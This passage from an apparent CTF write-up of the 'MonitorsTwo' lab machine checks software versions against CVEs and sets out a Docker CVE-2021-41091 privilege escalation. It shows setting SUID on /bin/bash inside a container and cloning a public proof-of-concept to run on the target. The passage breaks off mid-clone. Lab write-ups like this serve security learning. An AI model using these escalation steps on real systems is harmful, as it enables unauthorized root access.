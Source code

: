 Let's check the vulnerabilities one by one. [CVE-2021-33033](https://nvd.nist.gov/vuln/detail/CVE-2021-33033) refers to kernel version before `5.11.14`, so let's see what we have at the moment:

```bash
marcus@monitorstwo:/var$ uname -a
Linux monitorstwo 5.4.0-147-generic #164-Ubuntu SMP Tue Mar 21 14:23:17 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
```

Although this seems an outdated version, the `5.4` release series is actually the latest one according to the [official documentation](https://wiki.ubuntu.com/FocalFossa/ReleaseNotes):

![](kernel_doc.png)

[CVE-2020-25706](https://nvd.nist.gov/vuln/detail/CVE-2020-25706) is an XSS vulnerability for `Cacti 1.2.13` and the target app's version is `Cacti 1.2.22`. So, we have left with just the last one: [CVE-2021-41091](https://nvd.nist.gov/vuln/detail/CVE-2021-41091), which refers to `docker`'s engine `Moby 20.10.9` version.

Let's check `docker`'s version:

```bash
marcus@monitorstwo:/var$ docker --version
Docker version 20.10.5+dfsg1, build 55c4c88
```

Docker's version is `20.10.5`, thus, we should be able to exploit this vulnerability. After searching for PoCs, we find [this](https://github.com/UncleJ4ck/CVE-2021-41091) one. 

**Vulnerability**:
	Several dirs within `/var/lib/docker`, which are mounted on and utilized by `docker` containers, are accessible by low-privileged users. This implies that if an attacker gains `root` access inside a container, they could create arbitrary `SUID` files that an unprivileged user outside the container could interact with and use for privilege escalation.

So what we need to is:
1. Repeat our initial foothold process by using CVE-2022-46169 to gain RCE and privesc via the `capsh` binary.
2. Issue the appropriate permissions to the `bash` binary with the `chmod u+s /bin/bash` command.
3. Clone CVE-2021-41091's PoC on our attack host, transfer the bash script (`exp.sh`) on the target using `marcus` account via the SSH, and execute it using the `marcus` user.


Repeat our foothold and gain root within the container:

  ```bash
  # gaining root access within the container
  whoami
  root
  id
  uid=0(root) gid=0(root) groups=0(root),33(www-data)
  # assigning suid permission to the bash binary
  chmod u+s /bin/bash
  ```

From our attack host:

	```bash
	# clone the repo on the attack host
	$ sudo git clone https://github.com/UncleJ4ck/CVE-2021-41091
	[sudo] password for kali:
	Cloning into 'CVE-2021-41091'...
	remote: Enumerating objects: 25, done.
	remote: Counting objects: 100% (25/25), done.
	remote: Compressing objects: 100% (23/23), done.
	remote: Total 25 (delta 6), reused 3 (delta 0), pack-reused 0
	Receiving objects: 100% (25/25), 6.95 KiB | 6.96 MiB/s, done.
	Resolving deltas: 100% (6/6), done.